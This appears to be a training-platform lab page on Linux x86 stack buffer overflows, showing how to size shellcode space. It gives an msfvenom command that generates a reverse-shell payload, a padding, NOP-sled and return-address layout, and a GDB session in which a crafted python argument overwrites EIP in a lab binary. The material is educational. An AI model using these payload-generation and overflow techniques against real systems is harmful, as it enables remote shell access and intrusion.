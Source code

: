 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/31/section/397
// Platform Version: V1
// Module ID: 31
// Module Name: Stack-Based Buffer Overflows on Linux x86
// Module Difficulty: Medium
// Section ID: 397
// Section Title: Determine the Length for Shellcode
// Page Title: Stack-Based Buffer Overflows on Linux x86
// Page Number: 07
-->

# Determine the Length for Shellcode

**Module Name:** Stack-Based Buffer Overflows on Linux x86 **Page Number:** 07

#### STACK-BASED BUFFER OVERFLOWS ON LINUX X86

# Determine the Length for Shellcode

#### Shellcode - Length

``` shell-session
[!bash!]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

``` shell-session
Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4
```

#### Buffer

![https://academy.hackthebox.com/storage/modules/31/buffer_overflow_8.png](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_8.png)

#### GDB

``` shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

#### Buffer

![https://academy.hackthebox.com/storage/modules/31/buffer_overflow_7.png](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_7.png)

# 

# 

#### Questions

####